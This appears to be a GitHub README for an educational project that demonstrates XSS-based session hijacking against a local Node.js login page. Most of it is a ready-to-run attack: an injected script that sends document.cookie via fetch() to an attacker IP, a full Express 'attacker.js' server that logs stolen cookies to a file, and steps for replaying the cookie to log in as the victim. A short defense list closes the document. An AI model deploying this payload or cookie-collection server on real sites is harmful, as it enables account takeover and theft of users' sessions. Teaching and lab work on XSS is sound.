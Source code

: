 # 🚀 XSS-Based Session Hijacking Attack (Automatic Cookie Theft)
This project demonstrates how an **XSS (Cross-Site Scripting) attack** can be used to **automatically steal a victim’s session cookie** as soon as they log in, allowing the attacker to hijack the session.

---

## 📌 Overview
### Components of the Attack:
✅ **A vulnerable login page (`index.html`)** where the victim logs in.  
✅ **A JavaScript-based XSS payload** that runs automatically when the victim logs in.  
✅ **An attacker server (`attacker.js`)** that captures and logs stolen session cookies.  
✅ **A Node.js backend (`server.js`)** running the web application.  

---

## 📌 How the Attack Works

### 1️⃣ **Step 1: Victim Logs In**
- The victim visits the vulnerable website:
http://localhost:3000

yaml
Copy
Edit
- They enter their **username & password** and click **Login**.

📌 **Screenshot:**  
![Victim Login](screenshots/ss1.png)

---

### 2️⃣ **Step 2: XSS Payload Executes Automatically**
- The victim does **not** see anything suspicious.
- In the background, the login page **automatically runs a hidden script** that sends their **session cookie** to the attacker’s server.

📌 **Screenshot:**  
![XSS Payload Executed](screenshots/ss2.png)

---

### 3️⃣ **Step 3: Attacker Receives the Stolen Cookie**
- The attacker's server (`attacker.js`) **logs the victim’s session cookie** immediately.
- The stolen cookie is also **saved to `stolen_cookies.txt`**.

📌 **Screenshot:**  
![Cookie Stolen](screenshots/ss3.png)

---

### 4️⃣ **Step 4: Attacker Uses the Stolen Cookie**
- The attacker injects the **stolen session cookie** into their browser using **EditThisCookie** or Developer Tools (`F12`).

📌 **Screenshot:**  
![Cookie Injected](screenshots/ss4.png)

---

### 5️⃣ **Step 5: Attacker Successfully Hijacks the Session**
- The attacker **refreshes the page** and is now logged in **as the victim without entering a password**.

📌 **Screenshot:**  
![Session Hijacked](screenshots/ss5.png)

---

## 📌 How to Run This Attack Locally

### 1️⃣ **Install Dependencies**
```sh
npm install express
```
###2️⃣ **Start the Vulnerable Web Server**
```sh
node server.js
```
The web app will start on:
http://localhost:3000


###3️⃣ **Start the Attacker’s Server**
```sh

node attacker.js
```
The attacker server will listen for stolen cookies at:
http://192.168.X.X:4000


### 📌 The XSS Payload (Auto Cookie Theft)
This script is injected into the vulnerable login page (index.html) so that when the victim logs in, their cookie is stolen automatically.

---

### 🔹 Inside index.html (before </body>)
```html

<script>
document.getElementById("loginForm").addEventListener("submit", function() {
    fetch("http://192.168.64.2:4000/steal?cookie=" + document.cookie);
});
</script>
```
🔹 Replace 192.168.64.2 with your attacker's IP (run ip a to check).

### ✅ This ensures that every login automatically sends the session cookie to the attacker! 🎯

---

### 📌 Attacker’s Server (attacker.js)
This script captures and logs the stolen session cookies.

###🔹 Inside attacker.js
```js
const express = require('express');
const fs = require('fs');
const app = express();

app.get('/steal', (req, res) => {
    const stolenCookie = req.query.cookie;

    if (stolenCookie) {
        console.log("🚨 Stolen Cookie:", stolenCookie);
        fs.appendFileSync('stolen_cookies.txt', `${new Date()} - ${stolenCookie}\n`);
        res.send('Cookie stolen and logged!');
    } else {
        res.send('No cookie received.');
    }
});

app.listen(4000, '0.0.0.0', () => {
    console.log('🚀 Attacker server running on http://0.0.0.0:4000');
});
```
---

#📌 How to Defend Against This Attack
To prevent XSS-based session hijacking:

1️⃣ Use HttpOnly cookies so JavaScript cannot access them.
2️⃣ Enable Secure and SameSite flags to limit exposure.
3️⃣ Sanitize all user input to block XSS injection.
4️⃣ Implement Content Security Policy (CSP) to block unauthorized scripts.
5️⃣ Use Multi-Factor Authentication (MFA) to protect accounts.

--------------------------------------------

#📌 CREDITS

💻 Developed by: Md Tanvir Rana(AG2409), Margarita Nyman(AG2668)

📅 Date: (2025-03-16)

🛡️ For educational and ethical hacking purposes only.

